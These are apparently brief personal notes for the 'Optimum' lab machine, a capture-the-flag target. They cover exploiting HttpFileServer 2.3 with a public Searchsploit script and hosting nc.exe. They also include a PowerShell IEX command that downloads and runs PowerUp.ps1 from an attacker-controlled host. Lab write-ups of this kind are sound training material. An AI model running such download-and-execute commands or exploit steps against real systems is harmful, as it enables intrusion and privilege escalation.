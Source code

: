 # Optimum
## Only port 80 is open
### HttpFileServer 2.3
- In the page source, can see that the service is rejectto
```
<a href="http://www.rejetto.com/hfs/">HttpFileServer 2.3</a>
```

### Searchsploit had an exploit for this specific version
- run the exploit by modifying the ip address and port it searches for
- Copy nc.exe into a directory we want to host via https
- run the exploit using ./rejetto-hfs-exploit.py 10.10.10.8 80
	- port 80 because that is the port that hfs is running on their server

## Downloading and running a string
```
IEX(NewObject Net.WebClient).downloadString('http://10.10.14.21:8000/PowerUp.ps1')
```
- invoke powershell command in the cmd prompt
```
powershell -c "IEX ..."
```

